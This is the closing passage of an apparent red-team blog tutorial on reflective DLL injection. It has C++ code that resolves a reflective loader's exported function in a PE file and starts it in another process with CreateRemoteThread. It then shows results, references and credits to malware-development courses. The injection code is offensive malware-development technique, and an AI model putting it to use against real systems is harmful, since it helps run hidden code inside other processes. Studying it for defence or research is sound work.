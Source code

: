 ```cpp
    for (DWORD i = 0; i < pExportDirectory->NumberOfFunctions; i++) {       
        if (strcmp(functionName, EXPORTED_FUNC_NAME) == 0) {
            
            exportedFuncAddrRVA = (LPVOID) Rva2Raw(FunctionAddressArray[i], peSections, (int)fileHeader.NumberOfSections);
            break;
        }
    }
    return exportedFuncAddrRVA; 
}
```

Beautiful, now we have the RRA of the ReflectiveFunction, so in order to invoke it in the remote process we need to create a remote thread that takes code at that address as starting point. We also know the base address of the DLL in the remote process because that’s exactly the address returned by the *VirtualAllocEx* function! 

```cpp
/*--------CREATE REMOTE THREAD---------------------------------------*/

 //here we know the relative address of the ReflectiveFunction in the RAW data section
 //therefore we can invoke that function in the remote process. 
 DWORD threadId = 0x0;
 HANDLE hThread = NULL;
 //every RVA in the PE is SHIFTED BY THE HEADER SIZE I USE TO FIND THE DLL IN MEMORY EGG 
 hThread = CreateRemoteThread(hProc,NULL, 0, (LPTHREAD_START_ROUTINE)(remotePEBase + (DWORD)reflectiveLoaderFunc + HEADER_SIZE), NULL, 0 , &threadId);
 if (hThread == NULL) {
     cout << "[-] Error while running the remote thread, exiting ... \n";
 }
 else {
     printf("[+] Successufully ran thread with id: %lu\n", threadId);
 }
```

Something to keep in mind if you haven’t noticed in the code is that since we wrote an header before the DLL, all the addresses we want to refer to in the remote allocated memory, are shifted of HEADER_SIZE 😇

### Results

![Untitled](/Untitled%209.png)

### References

Some useful ones: 

- [My Github](https://github.com/oldboy21) page of course
- [Stephen Fewer](https://github.com/stephenfewer/ReflectiveDLLInjection) code
- [Red Team Notes](https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection)

### Credits

What I have found really useful during this journey: 

- [MaldevAcademy](https://maldevacademy.com/) course, and community
- [0xRick](https://0xrick.github.io/) blog, top resource
- Colleagues that listen to my rants on the way to lunch, and those who like to go on a sabbatical 💞
